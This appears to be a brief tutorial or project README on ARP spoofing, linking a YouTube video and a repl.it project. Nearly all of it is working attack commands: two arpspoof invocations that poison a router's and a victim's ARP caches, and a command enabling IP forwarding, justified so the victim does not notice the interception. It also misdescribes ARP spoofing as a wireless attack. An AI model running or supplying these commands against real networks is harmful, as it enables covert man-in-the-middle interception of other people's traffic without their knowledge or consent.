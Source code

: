 Youtube Link PART1 :

ARP Spoofing is One of The Best Wireless Attack on Local Network . 

I AM ROUTER:

arpspoof -i eth0 -t 192.168.0.1 192.168.0.103

I AM Victim :

arpspoof -i eth0 -t 192.168.0.103 192.168.0.1

ENABLING PORT FORWARDING :

If you miss this step then the Victim Internet Will be Goes Off and He Know That Something is Wrong With Wireless Network

echo '1' > /proc/sys/net/ipv4/ip_forward

Check the Project Here 

https://repl.it/@AdilShehzad7/ARP-Spoofing
